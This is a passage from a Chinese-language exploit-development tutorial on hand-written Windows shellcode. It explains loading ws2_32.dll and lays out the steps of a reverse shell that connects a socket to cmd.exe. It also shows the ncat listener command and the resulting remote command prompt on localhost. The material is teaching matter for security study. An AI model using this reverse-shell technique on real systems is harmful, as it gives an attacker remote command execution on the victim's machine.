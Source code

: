 最简单的方法是使用`LoadLibrary`加载模块。

```
DefineFuncPtr(LoadLibraryA);
  My_LoadLibraryA("ws2_32.dll");

```

该操作有效，因为`kernel32.dll`中已导入了`LoadLibrary`，正如我们说过的，它总会出现在内存中。

我们也可以导入`GetProcAddress`并使用它来获取所有其它我们需要的函数地址，但是没必要这么做，因为我们需要将所有的函数名包含在`shellcode`中。

#### entryPoint

显然，`entryPoint`是`shellcode`和实现反向`shell`的入口点。首先，我们导入所有我们需要的函数，接着我们使用它们。细节不重要并且我不得不说`winsock API`的使用非常麻烦。

在`nutshell`中:

1.创建套接字， 2.将套接字连接到`127.0.0.1:123`， 3.创建一个执行`cmd.exe`的进程， 4.将套接字附加到进程的标准输入，标准输出以及标准错误输出， 5.等待进程被终止， 6.当进程已经终止时，则终止当前线程。

第3点与第4点同时进行，第4点调用了`CreateProcess`, 攻击者可以连接到端口123上进行监听，一旦被成功连接，就可以通过套接字（`socket`）,即`TCP`连接，与运行在远程机器中的`cmd.exe`进行交互。

安装`ncat`，运行cmd并在命令行上输入：

```
ncat -lvp 123

```

此时将会在端口123上监听.

接着回到`Visual Studio 2013`，选择`Release`，搭建项目并运行它。再回到`ncat`，你将观察到如下：

```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Kiuhnm>ncat -lvp 123
Ncat: Version 6.47 ( http://nmap.org/ncat )
Ncat: Listening on :::123
Ncat: Listening on 0.0.0.0:123
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:4409.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Kiuhnm\documents\visual studio 2013\Projects\shellcode\shellcode>

```

现在可以执行任意命令了。退出则输入`exi`t。

#### main

得益于`linker`的选项
